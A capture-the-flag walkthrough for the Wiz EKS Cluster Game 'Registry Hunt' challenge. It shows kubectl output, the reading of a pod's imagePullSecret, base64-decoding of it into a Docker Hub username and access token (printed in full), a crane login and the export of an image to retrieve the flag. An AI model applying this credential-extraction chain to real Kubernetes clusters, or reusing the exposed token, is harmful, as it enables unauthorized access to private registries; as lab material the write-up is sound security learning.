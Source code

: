 ```yaml
---
tags:
  - Container-Registry
title: EKS Cluster Game - Registry Hunt
description: imagePullSecret is not actually a secret
reference: https://eksclustergames.com/challenge/2
---
```


## Challenge

A thing we learned during our research: always check the container registries.

For your convenience, the [crane](https://github.com/google/go-containerregistry/blob/main/cmd/crane/doc/crane.md) utility is already pre-installed on the machine.

## Solution

### 1. check the pod spec

- the container image registry is `docker.io`.
- the `kubernetes.io/psp: eks.privileged` seems imply the pod can access the worker node resource.

```
root@wiz-eks-challenge:~# kubectl get pods -n challenge2 -o yaml
apiVersion: v1
items:
- apiVersion: v1
  kind: Pod
  metadata:
    annotations:
      kubernetes.io/psp: eks.privileged
      pulumi.com/autonamed: "true"
    creationTimestamp: "2023-11-01T13:32:05Z"
    name: database-pod-2c9b3a4e
    namespace: challenge2
    resourceVersion: "230430041"
    uid: 57fe7d43-5eb3-4554-98da-47340d94b4a6
```

### 2. try `k exec`, `k debug`, and `k get sa`

Forbidden.

```
root@wiz-eks-challenge:~# kubectl exec -it database-pod-2c9b3a4e -n challenge2 -- bash
Error from server (Forbidden): pods "database-pod-2c9b3a4e" is forbidden: User "system:serviceaccount:challenge2:service-account-challenge2" cannot create resource "pods/exec" in API group "" in the namespace "challenge2"
root@wiz-eks-challenge:~# kubectl get sa -n challenge2
Error from server (Forbidden): serviceaccounts is forbidden: User "system:serviceaccount:challenge2:service-account-challenge2" cannot list resource "serviceaccounts" in API group "" in the namespace "challenge2"
root@wiz-eks-challenge:~# kubectl debug  -it database-pod-2c9b3a4e -n challenge2 --image=busybox
Defaulting debug container name to debugger-4phh5.
Error from server (Forbidden): pods "database-pod-2c9b3a4e" is forbidden: User "system:serviceaccount:challenge2:service-account-challenge2" cannot patch resource "pods/ephemeralcontainers" in API group "" in the namespace "challenge2"
```

### 3. try to get the imagePullSecret

Nice! We can get the imagePullSecret.

Note: we cant get all the k8s secrets.

```
root@wiz-eks-challenge:~# kubectl get pods -o yaml | grep imagePullSe -A 3
    imagePullSecrets:
    - name: registry-pull-secrets-780bab1d
    nodeName: ip-192-168-21-50.us-west-1.compute.internal
    preemptionPolicy: PreemptLowerPriority
root@wiz-eks-challenge:~# kubectl get secrets registry-pull-secrets-780bab1d -o yaml
apiVersion: v1
data:
  .dockerconfigjson: eyJhdXRocyI6IHsiaW5kZXguZG9ja2VyLmlvL3YxLyI6IHsiYXV0aCI6ICJaV3R6WTJ4MWMzUmxjbWRoYldWek9tUmphM0pmY0dGMFgxbDBibU5XTFZJNE5XMUhOMjAwYkhJME5XbFpVV280Um5WRGJ3PT0ifX19
kind: Secret
metadata:
  annotations:
    pulumi.com/autonamed: "true"
  creationTimestamp: "2023-11-01T13:31:29Z"
  name: registry-pull-secrets-780bab1d
  namespace: challenge2
  resourceVersion: "897340"
  uid: 1348531e-57ff-42df-b074-d9ecd566e18b
type: kubernetes.io/dockerconfigjson
root@wiz-eks-challenge:~# kubectl get secrets -o yaml
apiVersion: v1
items: []
kind: List
metadata:
  resourceVersion: ""
Error from server (Forbidden): secrets is forbidden: User "system:serviceaccount:challenge2:service-account-challenge2" cannot list resource "secrets" in API group "" in the namespace "challenge2"
```

### 4. decode the secret for getting the username and password for login 

```
root@wiz-eks-challenge:~# echo eyJhdXRocyI6IHsiaW5kZXguZG9ja2VyLmlvL3YxLyI6IHsiYXV0aCI6ICJaV3R6WTJ4MWMzUmxjbWRoYldWek9tUmphM0pmY0dGMFgxbDBibU5XTFZJNE5XMUhOMjAwYkhJME5XbFpVV280Um5WRGJ3PT0ifX19 | base64 -d                        
{"auths": {"index.docker.io/v1/": {"auth": "ZWtzY2x1c3RlcmdhbWVzOmRja3JfcGF0X1l0bmNWLVI4NW1HN200bHI0NWlZUWo4RnVDbw=="}}}root@wiz-eks-challenge:~# echo "ZWtzY2x1c3RlcmdhbWVzOmRja3JfcGF0X1l0bmNWLVI4NW1HN200bHI0NWlZUWo4RnVDbw==" | base64 -d
root@wiz-eks-challenge:~# echo "ZWtzY2x1c3RlcmdhbWVzOmRja3JfcGF0X1l0bmNWLVI4NW1HN200bHI0NWlZUWo4RnVDbw==" | base64 -d
eksclustergames:dckr_pat_YtncV-R85mG7m4lr45iYQj8FuCoroot@wiz-eks-challenge:~# crane auth login index.docker.io -u eksclustergames -p dckr_pat_YtncV-R85mG7m4lr45iYQj8FuCo
2025/05/16 14:52:19 logged in via /home/user/.docker/config.json
```

### 5. get the image's filesystem

```
root@wiz-eks-challenge:~# crane export index.docker.io/eksclustergames/base_ext_image:latest base_ext_image.tar.gz
root@wiz-eks-challenge:~# mkdir root
root@wiz-eks-challenge:~# tar -xf base_ext_image.tar.gz -C root
tar: home: Cannot change ownership to uid 65534, gid 65534: Invalid argument
tar: usr/sbin: Cannot change ownership to uid 1, gid 1: Invalid argument
tar: var/spool/mail: Cannot change ownership to uid 8, gid 8: Invalid argument
tar: Exiting with failure status due to previous errors
root@wiz-eks-challenge:~# ls
access_token  b.tar.gz  base_ext_image.tar.gz  latest  root
root@wiz-eks-challenge:~# cd root/
root@wiz-eks-challenge:~/root# ls
bin  dev  etc  flag.txt  home  lib  lib64  proc  root  sys  tmp  usr  var
root@wiz-eks-challenge:~/root# cat flag.txt 
wiz_eks_challenge{nothing_can_be_said_to_be_certain_except_death_taxes_and_the_exisitense_of_misconfigured_imagepullsecret}
```